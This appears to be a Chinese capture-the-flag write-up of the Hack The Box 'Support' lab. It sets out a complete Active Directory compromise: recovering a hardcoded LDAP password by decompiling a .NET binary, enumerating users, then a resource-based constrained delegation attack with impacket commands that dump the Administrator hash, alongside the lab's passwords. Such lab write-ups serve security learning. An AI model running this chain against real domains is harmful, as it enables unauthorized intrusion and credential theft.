# support #
## nmap探测 ##
#### `nmap -sT --min-rate 5000 -p- -oA nmap/port 10.129.230.181 -oA nmap/port`


#### 端口较多使用`grep open nmap/port.nmap | awk -F '/' '{print $1}' | paste -sd ','`命令处理


#### nmap -sT -sV -A -sC -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49664,49667,49678,49690,49703,49741 10.129.230.181 -oA nmap/detail


#### 根据端口可以判断是域渗透的靶场，但是没有提供初始账号。（htb上的window靶场是不是都是域相关的？）
#### smb匿名访问


#### support-tools是一个不常见的smb目录，先访问看看


#### 有执行程序也有压缩包，除了UserInfo.exe.zip其他的都有迹可循，将UserInfo.exe.zip下载下来解压


#### 查看配置文件，应该是一个.net的应用程序


#### 通过在线反编译网站[decompiler](https://www.decompiler.com/)对UserInfo.exe进行反编译，得到以下内容


#### 下载到本地查看，调用Protected的getPassword方法生成一个密码用于连接ldap服务




#### 我本地没有.net的开发环境，于是让AI帮我把生成密码的代码转换成python，执行后得到密码`nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz`
```
import base64

class Protected:
    enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
    key = b"armando"  # 将密钥转换为 bytes 类型

    @staticmethod
    def get_password():
        # 1. 将 Base64 字符串解码为字节数组
        array = bytearray(base64.b64decode(Protected.enc_password))
        
        # 2. 遍历字节数组，进行异或解密
        for i in range(len(array)):
            # 对应 C# 中的 (array[i] ^ key[i % key.Length]) ^ 0xDFu
            array[i] = (array[i] ^ Protected.key[i % len(Protected.key)]) ^ 0xDF
            
        # 3. 将解密后的字节数组转换为字符串并返回
        return array.decode('utf-8')

# 测试运行
if __name__ == "__main__":
    print(Protected.get_password())
```

#### nxc ladp测试连接`nxc ldap 10.129.230.181 -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -d support.htb`



#### 查看有哪些用户`nxc ldap 10.129.230.181 -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -d support.htb --users`


#### 查看用户信息`nxc ldap 10.129.230.181 -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -d support --query "(sAMAccountName=smith.rosario)" "*"`support用户有一个info字段是密码


#### 尝试winrm登录`evil-winrm -i 10.129.230.181 -u 'support' -p 'Ironside47pleasure40Watchful'`


## RBCD ##
#### 域信息收集`bloodhound-python -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -d 'support.htb' -c All --zip --dns-tcp -ns 10.129.230.181`
#### 将LDAP和support用户标记为Tier Zero和Owned查看最短的攻击路径


#### 从上图可以得知support用户所在的组有增加主机的权限，那就可以执行RBCD(资源委派攻击)攻击，至于攻击步骤bloodhound种也直接给出了。但我更倾向于使用Kali

#### 添加主机`impacket-addcomputer -computer-name 'gio$' -computer-pass 'gio404' -dc-host dc.support.htb -dc-ip 10.129.230.131 support.htb/support:'Ironside47pleasure40Watchful'`


#### 配置委派`impacket-rbcd -delegate-from 'gio$' -delegate-to 'DC$' -dc-ip 10.129.230.181 -action 'write' support.htb/support:'Ironside47pleasure40Watchful'`


#### 获取傀儡机TGT `impacket-getTGT support.htb/'gio$':'gio404' -dc-ip 10.129.230.181`


#### 导入票据`export KRB5CCNAME=gio\$.ccache`
#### 模拟域管请求ST`impacket-getST -spn 'ldap/dc.support.htb' -impersonate Administrator -dc-ip dc.support.htb  'support.htb/gio$:gio404'`


#### 导入票据`export KRB5CCNAME=Administrator@ldap_dc.support.htb@SUPPORT.HTB.ccache`
#### 获取hash`impacket-secretsdump -no -k dc.support.htb -just-dc-user Administrator`


#### winrm登录`evil-winrm -i 10.129.230.181 -u administrator -H bb06cbc02b39abeddd1335bc30b19e26`


## 备注 ##
#### 在模拟域管请求ST的时候，如果请求cifs服务可以使用psexec进行登录`impacket-getST -spn 'cifs/dc.support.htb' -impersonate Administrator -dc-ip dc.support.htb  'support.htb/gio$:gio404'`
#### 导入票据`export KRB5CCNAME=Administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache`
#### `impacket-psexec -k dc.support.htb -dc-ip 10.129.12.69`(靶场重启更换ip)
